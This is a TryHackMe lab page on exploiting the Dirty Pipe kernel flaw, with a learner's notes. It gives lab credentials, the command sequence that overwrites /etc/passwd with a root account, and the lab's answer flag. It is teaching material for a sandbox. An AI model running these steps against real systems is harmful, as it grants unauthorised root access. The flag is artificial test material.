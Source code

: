 **Connecting to the target**

This lab can be accessed in one of two ways:

-   Using the in-browser machine on the right-hand side of the screen. This should have appeared automatically when you deployed the target.  
    
-   Using SSH from a local attacking machine or the TryHackMe AttackBox. The credentials for this are:
    
    -   **Username:** `tryhackme`
    -   **Password:** `TryHackMe123!`
    
    i.e. `ssh tryhackme@10.10.195.94`

Pick a method and access the target for yourself!

  

**The Exploit**

In the previous task we looked at the background of the exploit and how it works. In this task we will be exploiting the vulnerability for ourselves!

A copy of Max Kellerman's original proof of concept exploit code (originally found in the [disclosure blog post](https://dirtypipe.cm4all.com/)) can be found on the target machine at `/home/tryhackme/Exploit/PoC/poc.c`. Once compiled, this exploit gives us a lot of control over how we abuse the Dirty Pipe vulnerability. Specifically, it lets us specify the _file_ we want to overwrite, the _offset_ we would like to overwrite it at, and the _content_ we would like to insert. We will acquire each of these things in the following paragraphs. An interactive video clip will be provided at the end of the task to assist with comprehension and debugging of the steps outlined in the following sections.  

---

Bearing in mind that the exploit won't let us _create_ files (we can only overwrite information in existing files), we first need to find a file our user can _read_, but that still allows us to elevate our privileges. The obvious easy choice in these conditions is `/etc/passwd`. Whilst password hashes are usually stored in the restricted-access `/etc/shadow` in modern Linux systems (as opposed to being stored traditionally in `/etc/passwd`), most Linux variants do still check to see if account password hashes are given in `/etc/passwd`. This means that we can write a user with root permissions and a known password hash directly into the passwd file!

_**Note:** If you are familiar with privilege escalation due to a writeable `/etc/passwd` file, skip to the next paragraph — otherwise click on the box below to read more about this technique._  

_Background Knowledge: The Passwd File (Click to read)_

  

-   

  

Let's generate a password hash and form a valid passwd entry before moving on. Pick a password then use the `openssl` command to create a SHA512Crypt hash of your chosen password:

Generating a SHA512Crypt Hash

```shell-session
tryhackme@dirty-pipe:~$ openssl passwd -6 --salt THM "PASSWORD"
$6$THM$eRD0Ur0SZuwDLSwf9Lb2vyC2T6/PtQUA/B0Ssm6/jsiBtpSvc6QLjhFF0XNM8odgfkxMnC4oczGuvEomrVRfz0
```

Finally, insert your username and hash into this passwd entry template: `USERNAME:HASH:0:0::/root:/bin/bash`.

Your entry should look something like this:  
`muiri:$6$THM$eRD0Ur0SZuwDLSwf9Lb2vyC2T6/PtQUA/B0Ssm6/jsiBtpSvc6QLjhFF0XNM8odgfkxMnC4oczGuvEomrVRfz0:0:0::/root:/bin/bash`

_**Note:** The password:_ `TryHackMe123!` _has been used to generate the example hash above._

As we are overwriting existing entries in the password file, we also need to add a new line on at the end of our entry. This ensures that we avoid corrupting our entry with any remnants of the previous contents of the line.

Our final content should therefore look something like this (quotes included):  
`'muiri:$6$THM$eRD0Ur0SZuwDLSwf9Lb2vyC2T6/PtQUA/B0Ssm6/jsiBtpSvc6QLjhFF0XNM8odgfkxMnC4oczGuvEomrVRfz0:0:0::/root:/bin/bash  
'`  
  

---

We have our _file_ (`/etc/passwd`) and our _content_ (the passwd entry) — all we need now is the _offset_. The offset is where in the file the exploit should begin writing at — in other words, which part of the file gets overwritten.

The vulnerability won't allow us to append to the file, so we are going to have to pick an account and overwrite it. Realistically speaking, given the length of our passwd entry (hash inclusive), this will probably actually overwrite _several_ accounts. Looking through the passwd file, the `games` account stands out as being a good candidate for a little-used account which we can afford to nuke for a few minutes. We can use `grep` with the `-b` switch to find the offset of `games` from the start of the file:

Finding the Offset

```shell-session

```

The offset is revealed to be `189`, giving us the final piece of our puzzle.  

---

We are finally ready to go!  

The program can be compiled using the following commands:

Compilation Command

```shell-session
tryhackme@dirty-pipe:~$ cd ~/Exploit/PoC
tryhackme@dirty-pipe:~/Exploit/PoC$ gcc poc.c -o exploit
tryhackme@dirty-pipe:~/Exploit/PoC$ ls
poc.c  exploit
```

This moves to the directory containing the exploit code, then compiles it with `gcc`.

Before we perform the exploit, it's very important that we backup the `/etc/passwd` file. This is a disruptive exploit which _will_ cause damage to the system (for a while at the very least); with the passwd file backed up, we can easily revert the damage after the exploit has been completed.

Use `cp /etc/passwd /tmp/passwd` to copy the passwd file to `/tmp`, then execute the exploit!

Your command should look something like this:

Executing the Exploit

```shell-session
tryhackme@dirty-pipe:~/Exploit/PoC$ ./exploit /etc/passwd 189 'USERNAME:HASH:0:0::/root:/bin/bash
> '
```

---

The entire process as described in this task is demonstrated in the clip below:  

00:00

Answer the questions below

Follow along with the steps described in the task if you haven't already done so.  

Switch user (`su`) into your newly created root account.  

What is the flag found in the `/root/flag.txt` file?  

	THM{MmU4Zjg0NDdjNjFiZWM5ZjUyZGEyMzlm}

As mentioned previously, we have accidentally overwritten other user accounts by exploiting Dirty Pipe in this manner. This could cause issues for the server; thus, as professionals, we must clean up after our exploits.  

Using your root shell, restore the original `/etc/passwd` file from your backup.

```shell
ssh tryhackme@10.10.195.94

TryHackMe123!

openssl passwd -6 --salt THM "TryHackMe123!"
```

```
$6$THM$eRD0Ur0SZuwDLSwf9Lb2vyC2T6/PtQUA/B0Ssm6/jsiBtpSvc6QLjhFF0XNM8odgfkxMnC4oczGuvEomrVRfz0
```

```
grep -b "games" /etc/passwd

189:games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

```
cp /etc/passwd /tmp/passwd

cd ~/Exploit/PoC/

gcc poc.c -o exploit

./exploit /etc/passwd 189 'muiri:$6$THM$eRD0Ur0SZuwDLSwf9Lb2vyC2T6/PtQUA/B0Ssm6/jsiBtpSvc6QLjhFF0XNM8odgfkxMnC4oczGuvEomrVRfz0:0:0::/root:/bin/bash

'

su muiri

TryHackMe123!

cat /root/flag.txt

cp /tmp/passwd /etc/passwd
```